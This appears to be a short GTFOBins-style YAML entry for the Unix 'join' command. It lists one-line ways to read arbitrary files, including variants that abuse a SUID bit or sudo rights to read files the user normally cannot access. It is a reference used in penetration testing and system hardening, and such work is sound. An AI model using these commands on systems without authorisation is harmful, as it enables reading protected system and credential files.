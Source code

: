 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        join -a 2 /dev/null $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./join -a 2 /dev/null $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo join -a 2 /dev/null $LFILE
---
```

